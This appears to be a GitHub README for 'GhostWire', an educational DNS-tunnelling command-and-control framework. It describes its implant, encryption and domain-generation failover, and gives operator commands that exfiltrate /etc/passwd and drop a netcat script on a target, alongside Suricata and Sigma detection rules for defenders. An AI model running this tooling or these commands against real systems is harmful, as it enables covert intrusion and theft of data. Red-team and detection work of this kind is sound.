





# GhostWire C2 Framework

> **Educational Red Team Framework — DNS-Based Command & Control with AES-256 + RSA-2048**

GhostWire is a lightweight, modular C2 framework designed for **controlled cybersecurity research, red team labs, and portfolio demonstration**. It demonstrates real-world adversary tradecraft over DNS covert channels, with strong encryption, session management, and file transfer capabilities.

**Built for:** Red team operators, threat hunters, and SOC analysts studying DNS tunneling and encrypted C2 traffic.


## Demo

### GhostWire Operator Console








## Skills Demonstrated

- Python Development
- Network Programming
- DNS Protocol Analysis
- Cryptography Concepts
- Detection Engineering
- Security Automation
- Threat Emulation
- MITRE ATT&CK Mapping
- SQLite Persistence
---

## Architecture

┌─────────────┐ DNS TXT/UDP ┌──────────────────┐ │ Implant │ ◄────────────────────► │ DNS Listener │ │ (Agent) │ AES-256-CTR + RSA │ (C2 Server) │ └─────────────┘ └──────────────────┘ ↑ ↑ [Target Lab] 
[Operator Console]


- **Transport:** DNS TXT queries (covert, blends with normal traffic)
- **Encryption:** RSA-2048 key exchange → AES-256-CTR session traffic
- **Routing:** DGA (Domain Generation Algorithm) with fallback domains
- **Database:** SQLite session/command/result persistence
- **Logging:** File-based audit log for all C2 events

---

## Features

| Capability | Status | MITRE ATT&CK |
|------------|--------|--------------|
| Encrypted DNS C2 | ✅ | [T1071.004](docs/MITRE.md) |
| AES-256 Session Encryption | ✅ | [T1573.001](docs/MITRE.md) |
| File Upload (Exfiltration) | ✅ | [T1041](docs/MITRE.md) |
| File Download (Tool Drop) | ✅ | [T1105](docs/MITRE.md) |
| DGA Failover Domains | ✅ | [T1568.001](docs/MITRE.md) |
| Command History & Logging | ✅ | — |
| SQLite Persistence | ✅ | — |

---

## Quick Start

```bash
# 1. Setup environment (installs deps, creates dirs, generates keys)
./setup.sh

# 2. Start the C2 server
python server/ghostwire.py

# 3. In another terminal, run the implant (lab target)
python agent/implant.py


GhostWire> sessions
GhostWire> cmd <id> whoami
GhostWire> upload <id> /etc/passwd
GhostWire> download <id> ./tools/netcat.sh /tmp/nc.sh
GhostWire> history <id>


Blue Team / Detection Guide
This section demonstrates the defensive counterpart to GhostWire's offensive capabilities.

Network Indicators
DNS queries to DGA-looking subdomains on port 5354 (or configured port)
High-frequency TXT lookups with base64-like labels
Query pattern: <session>.<type>.<chunk>.<data>.<dga>.<domain>
Detection Rules
Suricata / Zeek Notice

# Detect high-volume DNS TXT queries to C2 domain
alert dns any any -> any 5354 (msg:"GHOSTWIRE Possible DNS C2 Beacon"; dns.query; pcre:"/^[a-f0-9]{8}\.(bcon|cmd|data|reg)\.[0-9]+\./"; sid:1000001; rev:1;)


title: GhostWire DNS C2 Detection
logsource:
  category: dns
detection:
  selection:
    record_type: TXT
    query|re: '^[a-f0-9]{8}\.(bcon|cmd|data|reg|upld|dnld)\.[0-9]+\.'
  condition: selection
falsepositives: Unknown
level: high

Host Artifacts

logs/ghostwire.log on compromised machine (if not cleaned)
Python process making DNS queries every 60s ± jitter
Defensive Recommendations
Monitor for TXT query anomalies — most benign DNS uses A/AAAA/CNAME, not frequent TXT.
Track DGA patterns — high entropy subdomains with low TTL.
Correlate beaconing intervals — regular 60s intervals with jitter are characteristic of C2.
Use DNS sinkholes for the observed backup domains.

Project Structure
GhostWire/
├── agent/implant.py          # Target-side implant
├── server/
│   ├── ghostwire.py          # Operator console
│   └── dns_listener.py       # DNS C2 engine
├── shared/
│   ├── crypto.py             # AES + RSA implementation
│   ├── protocol.py           # Message format constants
│   ├── dga.py                # Domain Generation Algorithm
│   ├── config.py             # Central configuration
│   ├── database.py           # SQLite persistence
│   └── logger.py             # File audit logging
├── docs/MITRE.md             # ATT&CK mapping
├── generate_keys.py          # RSA key generator
├── setup.sh                  # One-command lab setup
├── requirements.txt
└── README.md

Ethical Use & Disclaimer
GhostWire is built for authorized cybersecurity education, red team labs, and portfolio demonstration. It is intended to be used only in environments you own or have explicit written permission to test.

By using this software, you agree to follow responsible disclosure practices and comply with all applicable laws.

Tech Stack
Language: Python 3
Crypto: cryptography (AES-256-CTR, RSA-2048-OAEP)
DNS: dnslib + dnspython
DB: SQLite3
UI: Terminal Operator Console